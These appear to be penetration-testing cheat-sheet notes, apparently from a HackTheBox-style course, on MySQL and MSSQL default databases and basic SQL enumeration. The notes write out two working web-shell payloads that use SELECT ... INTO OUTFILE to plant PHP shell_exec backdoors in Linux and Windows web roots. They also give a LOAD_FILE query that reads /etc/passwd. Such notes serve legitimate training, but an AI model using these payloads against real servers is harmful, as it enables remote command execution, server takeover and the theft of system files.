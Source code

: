 
##### SQL Default Databases
MySQL
- myssql
- information_schema
- performance_schema
- sys

MSSQL
- master
- msdb
- model
- resource
- tempdb

##### SQL Syntax

##### MySQL
```shell-session
SHOW DATABASES;
```
```shell-session
USE htbusers;
```
```shell-session
SHOW TABLES;
```
```shell-session
SELECT * FROM users;
```

Write Local File
```shell-session
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

Web shell
SELECT '<?php if(isset($_GET["cmd"])) { echo "<pre>".shell_exec($_GET["cmd"])."</pre>"; } ?>' 
INTO OUTFILE 'C:/xampp/htdocs/webshell.php';


Check Secure File Privileges
```shell-session
show variables like "secure_file_priv";
```
- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

Read local files
```shell-session
select LOAD_FILE("/etc/passwd");
```




